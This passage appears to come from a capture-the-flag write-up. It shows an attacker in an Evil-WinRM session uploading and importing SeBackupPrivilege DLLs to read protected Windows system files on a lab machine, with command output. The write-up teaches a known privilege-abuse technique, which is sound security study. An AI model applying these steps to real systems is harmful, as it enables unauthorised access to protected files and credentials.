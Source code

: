 [Backup Operators](https://www.backup4all.com/what-are-backup-operators-kb.html) is a default Windows group that is designed to backup and restore files on the computer using certain methods to read and write all (or most) files on the system.

### Copy-FileSeBackupPrivilege

[This repo](https://github.com/giuliano108/SeBackupPrivilege) has a nice set of PowerShell tools for abusing the `SeBackupPrivilege`. I’ll clone it, and then I’ll need to upload two files to Blackfields:

```
*Evil-WinRM* PS C:\programdata> upload /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
Info: Uploading /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll to C:\programdata\SeBackupPrivilegeCmdLets.dll

Data: 16384 bytes of 16384 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> upload /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
Info: Uploading /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll to C:\programdata\SeBackupPrivilegeUtils.dll

Data: 21844 bytes of 21844 bytes copied

Info: Upload successful!

```

Now I’ll import them into my current session:

```
*Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeUtils.dll

```

Now I can read files across the filesystem. For example, I can’t read `C:\windows\system32\config\netlogon.dns` as a non-admin user:

```
*Evil-WinRM* PS C:\windows\system32\config> type netlogon.dns              
Access to the path 'C:\windows\system32\config\netlogon.dns' is denied.    
At line:1 char:1                                                                                                     
+ type netlogon.dns                                                                                                                                                                                                                        
+ ~~~~~~~~~~~~~~~~~                                                                                                  
    + CategoryInfo          : PermissionDenied: (C:\windows\system32\config\netlogon.dns:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand 

```
